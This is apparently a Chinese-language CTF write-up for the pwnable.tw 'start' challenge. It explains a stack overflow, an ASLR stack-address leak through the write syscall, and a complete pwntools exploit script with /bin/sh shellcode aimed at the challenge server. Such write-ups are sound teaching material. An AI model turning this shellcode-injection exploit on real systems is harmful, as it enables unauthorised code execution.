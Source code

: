 ```yaml
---
title: notepad
date: 2019-10-08
categories:
- pwnable_tw
tags: stack
---
```


# start

## 漏洞

栈溢出。

## 思路

这个程序用了两个系统调用，系统调用号分别是04和03，`write`和`read`。  

这个栈的结构比较简单，没有`ebp`，`retn`对应的是`exit`，设`retn`对应栈`+4`的位置为A，A里面的内容是这个位置的栈地址。  
> 这里需要注意的是，虽然这个程序没有开PIE，但是ASLR是启动了的。也就是堆栈地址随机化。
先用栈溢出到开始代码段构造`write`的地方，这个时候的`esp`刚好指向A，于是就可以打印出栈地址。  
然后只要把shellcode放到栈上就好了。  
> 第一次打印地址的时候注意不要用`sendline`，会覆盖掉地址内容。

## exp

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']
context(arch = 'i386',os = 'linux')

debug = 1
if debug:
    sh = remote('chall.pwnable.tw',10000)
else:
    sh = process('./start')

mov_ecx_esp = 0x8048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#gdb.attach(sh)
payload = 'A' * 0x14 + p32(mov_ecx_esp)
sh.sendafter(':',payload)

esp_addr = u32(sh.recv(4))
success(hex(esp_addr))

payload = 'A' * 0x14 + p32(esp_addr + 0x14) + shellcode
sh.sendline(payload)

sh.interactive()
sh.close()

```